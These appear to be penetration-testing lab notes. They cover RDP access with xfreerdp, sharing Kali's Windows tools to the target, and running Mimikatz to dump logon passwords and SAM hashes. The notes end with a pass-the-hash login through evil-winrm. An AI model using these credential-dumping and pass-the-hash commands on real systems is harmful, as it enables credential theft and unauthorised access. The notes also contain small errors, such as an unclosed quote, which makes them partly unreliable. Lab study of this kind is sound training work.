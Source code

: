 There are many RDP clients available for Linux. One of the most versatile is "xfreerdp" -- this is what we will be using here. If not already installed, you can 
```bash
#install xfreerdp with the command:
sudo apt install freerdp2-x11

#As mentioned, xfreerdp is an incredibly versatile tool with a vast number of options available. These range from routing audio and USB connections into the target, through to pass-the-hash attacks over RDP. The most basic syntax for connecting is as follows:
xfreerdp /v:IP /u:USERNAME /p:PASSWORD
```
Note that (as this is a command line tool), passwords containing special characters must be enclosed in quotes.

When authentication has successfully taken place, a new window will open giving GUI access to the target.
That said, we can do a lot more with xfreerdp. These switches are particularly useful:-

**/dynamic-resolution** -- allows us to resize the window, adjusting the resolution of the target in the process
**/size:WIDTHxHEIGHT** -- sets a specific size for targets that don't resize automatically with /dynamic-resolution
**+clipboard** -- enables clipboard support
**/drive:LOCAL_DIRECTORY,SHARE_NAME** -- creates a shared drive between the attacking machine and the target. This switch is insanely useful as it allows us to very easily use our toolkit on the remote target, and save any outputs back directly to our own hard drive. In essence, this means that we never actually have to create any files on the target. For example, to share the current directory in a share called share, you could use: /drive:.,share, with the period (.) referring to the current directory


A useful directory to share is the /usr/share/windows-resources directory on Kali. This shares most of the Windows tools stockpiled on Kali, including Mimikatz which we will be using next. This would make the full command:
xfreerdp /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share



With GUI access obtained and our Windows resources shared to the target, we can now very easily use Mimikatz to dump the local account password hashes for this target. Next we open up a cmd.exe or PowerShell window as an administrator (i.e. right click on the icon, then click "Run as administrator") in the GUI and enter the following command:
\\tsclient\share\mimikatz\x64\mimikatz.exe

---------------------------------------------------------------------------------------------------------------------------------------------------------------
Even with evil-winrm, the shell seem not interactive so when running mimikatz, we can not interact with mimikatz interface, however, we finnallt find a way.
```bash
mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit
```
We can save administrator password hash and can use this to login next time even if we don't know password plaintext
```bash
evil-winrm -u Administrators -H <admin-hash-password> -i <IP> [-P <port>, when port are not default or we have to pivoting]
```
# machine ip addr: 10.200.72.200
# my tunnel ip addr: 10.50.73.113
